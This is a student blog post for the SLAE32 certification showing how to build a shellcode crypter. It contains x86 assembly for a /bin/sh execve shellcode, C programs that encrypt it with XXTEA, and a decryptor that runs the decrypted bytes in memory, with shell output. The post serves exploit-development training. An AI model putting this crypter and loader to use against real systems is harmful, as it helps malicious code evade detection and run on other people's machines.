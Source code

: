 ```yaml
---
title: "SLAE32: Creating custom crypter shellcode"
author: Travis Mathison
date: 2018-01-22 12:00:00 +0800
categories: [SLAE32]
tags: [assembly, x86, penetration-testing, hacking, exploit-development, shellcode, slae32]
---
```


### The blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:
[http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)<br />
Student ID: SLAE-990

Assignment #7

---

## Description
* Create a custom crypter like the one shown in the “crypters” video
* Free to use any existing encryption schema
* Can use any programming language

## Choosing a symmetric encryption algorithm
For the encryption and decryption of the shellcode I have chosen to use the Corrected Block TEA (XXTEA) block cipher.  Further reading on this implementation can be found here => [XXTEA](https://en.wikipedia.org/wiki/XXTEA).

<img src="{{ site.url }}/assets/img/slae32/07-01.png"/><br/>
One round of XXTEA [(Source)](https://en.wikipedia.org/wiki/XXTEA)<br/>

As to not reimplement XXTEA itself I discovered a C implementation of the cipher on github at [XXTEA encryption arithmetic library](https://github.com/xxtea/xxtea-c). This implementation will allow me to encrypt the shellcode and emmit it in shellcode form.

## Shellcode to encrypt
I will be using some shellcode from earlier to spawn a simple /bin/sh.  The assembly to spawn this shell is:
```nasm
global _start			

section .text
_start:

	; PUSH the first null dword
	xor eax, eax
	push eax

	; PUSH //bin/sh (8 bytes)
	push 0x68732f2f
	push 0x6e69622f
	mov ebx, esp
	push eax
	mov edx, esp
	push ebx
	mov ecx, esp
	mov al, 11
	int 0x80
```

The generated shellcode from objdump that we will encrypt is:
```
[sengen@manjaro-x86 assignment7]$ objdump -d ./execve-stack|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
```

### Encrypting shellcode
For the encryption we will take the shellcode we generated above and hardcode it into our encrypt.c source code.  Utilizing the XXTEA algorithm we'll encrypt each byte and output it in shellcode format.

#### encrypt.c
```c
#include <stdio.h>
#include <string.h>
#include "xxtea.h"

int main(int argc, char* argv[]) {
    if (argc != 2) {
        printf("%s\n", "usage: ./encrypt <key>");
        exit(1);
    }

    unsigned char shellcode[] = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";
    size_t shellcode_len = strlen((const char *) shellcode);
    const char *key = argv[1];

    printf("%s\n", "Shellcode before encryption:");
    for (int counter = 0; counter < shellcode_len; ++counter) {
        printf("\\x%02x", shellcode[counter]);
    }

    size_t len;
    unsigned char *encrypt_data = xxtea_encrypt(shellcode, strlen(shellcode), key, &len);

    printf("\n\nEncrypted shellcode:\n");
    for (size_t counter = 0; counter < strlen(encrypt_data); counter += 2) {
        printf("\\x%02x\\x%02x", (int)encrypt_data[counter], (int)encrypt_data[counter+1]);
    }

    printf("\n");

    return 0;
}
```
#### Compiling and running the encrypt.c program
```
[sengen@manjaro-x86 assignment7]$ gcc -Wall encrypt.c xxtea.c xxtea.h -o encrypt
[sengen@manjaro-x86 assignment7]$ ./encrypt slae32-assembly-expert
Shellcode before encryption:
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80

Encrypted shellcode:
\x5b\x69\x1c\xed\x22\x51\x2c\xcc\x53\x92\x18\xa4\xed\x12\x31\xb2\x86\xe0\x05\xfe\x96\xd5\x71\xd5\x7e\x5b\xd6\x10\x2f\xe9\xf5\x9e
```

### Decrypting shellcode
Now we have an encrypted version of the shellcode.  We'll copy this out and place it into our decrypt.c program.  This does the opposite and performs the decryptions of each byte and again we'll print it to the screen.  Additionally, we'll now execute the shellcode which will spawn our /bin/sh.

```c
#include <stdio.h>
#include <string.h>
#include "xxtea.h"

int main(int argc, char* argv[]) {
    if (argc != 2) {
        printf("%s\n", "usage: ./decrypt <key>");
        exit(1);
    }

    unsigned char encrypted_data[] = "\x5b\x69\x1c\xed\x22\x51\x2c\xcc\x53\x92\x18\xa4\xed\x12\x31\xb2\x86\xe0\x05\xfe\x96\xd5\x71\xd5\x7e\x5b\xd6\x10\x2f\xe9\xf5\x9e";
    size_t encrypted_data_len = strlen((const char *) encrypted_data);
    const char *key = argv[1];

    printf("%s\n", "Shellcode before decryption:");
    for (int counter = 0; counter < encrypted_data_len; ++counter) {
        printf("\\x%02x", encrypted_data[counter]);
    }

    size_t len;
    unsigned char *decrypted_data = xxtea_decrypt(encrypted_data, encrypted_data_len, key, &len);

    printf("\n\nDecrypted shellcode:\n");
    for (size_t counter = 0; counter < strlen(decrypted_data); counter += 2) {
        printf("\\x%02x\\x%02x", (int)decrypted_data[counter], (int)decrypted_data[counter+1]);
    }

    printf("\n\nExecuting shellcode.");

    int (*ret)() = (int(*)())decrypted_data;
    ret();

    return 0;
}
```

#### Compiling and running the decrypt.c program
```
[sengen@manjaro-x86 assignment7]$ gcc -Wall decrypt.c xxtea.c xxtea.h -o decrypt
[sengen@manjaro-x86 assignment7]$ ./decrypt slae32-assembly-expert
Shellcode before decryption:
\x5b\x69\x1c\xed\x22\x51\x2c\xcc\x53\x92\x18\xa4\xed\x12\x31\xb2\x86\xe0\x05\xfe\x96\xd5\x71\xd5\x7e\x5b\xd6\x10\x2f\xe9\xf5\x9e

Decrypted shellcode:
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80\x00

sh-4.4$
```

### Source code
All source code for this assignment can be found at<br/>
 [https://github.com/tdmathison/SLAE32/tree/master/assignment7](https://github.com/tdmathison/SLAE32/tree/master/assignment7).
